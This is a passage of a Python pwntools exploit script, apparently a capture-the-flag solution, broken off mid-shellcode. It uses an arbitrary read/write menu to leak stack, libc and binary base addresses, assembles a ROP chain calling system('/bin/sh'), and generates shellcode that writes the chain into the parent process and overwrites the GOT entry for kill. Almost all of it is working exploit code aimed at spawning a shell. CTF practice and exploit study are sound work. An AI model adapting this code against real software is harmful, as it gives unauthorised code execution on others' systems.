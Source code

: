 ```python

def readv(addr):
    stream.sendlineafter(b'Choice:', b'1')
    stream.sendlineafter(b'Address:', hex(addr)[2:])
    stream.recvuntil(b"Value: ")
    return int(stream.recvline(keepends=False), 16)

def writev(addr, val):
    stream.sendlineafter(b'Choice:', b'2')
    stream.sendlineafter(b'Value:', hex(val)[2:].encode())
    stream.sendlineafter(b'Address:', hex(addr)[2:].encode())

    info(f"writev: {hex(addr)} <- {hex(val)}")

libc = ELF("./libc.so.6")

stream.readuntil(b"Menu")
sleep(3)

addr_stack = readv(0)
info(f"addr_stack: {hex(addr_stack)}")

libc_base = readv(addr_stack - 0x70) - (libc.symbols['__libc_start_main'] + 128)
success(f"libc_base: {hex(libc_base)}")
libc.address = libc_base

bin_base = readv(addr_stack - 0x60) - chall.symbols['__do_global_dtors_aux_fini_array_entry']
success(f"bin_base: {hex(bin_base)}")
chall.address = bin_base

child_shellcode_dest = bin_base + 0x3000

pop_rdi = 0x000000000002a3e5 + libc_base
bin_sh = next(libc.search(b'/bin/sh\0'))
system = libc.symbols['system']
ret = 0x000000000000101a + bin_base

rop_chain = [ret] * 5 + [pop_rdi, bin_sh, system]

rop_dest = addr_stack - 0x70 - 0xa0 # だいたいこの辺

child_shellcode = f"""
    mov rax, 110 # sys_getppid
    syscall

    mov ebp, eax # ppid
"""

for r in rop_chain:
    child_shellcode += f"""
    mov edi, ebp
    mov rsi, {rop_dest}
    mov rdx, {r}
    mov rax, {chall.symbols['writev_helper']}
    call rax
"""
    rop_dest += 8

child_shellcode += f"""
    mov edi, ebp
    mov rsi, {chall.got['kill']}
    mov rdx, {ret}
    mov rax, {chall.symbols['writev_helper']}
```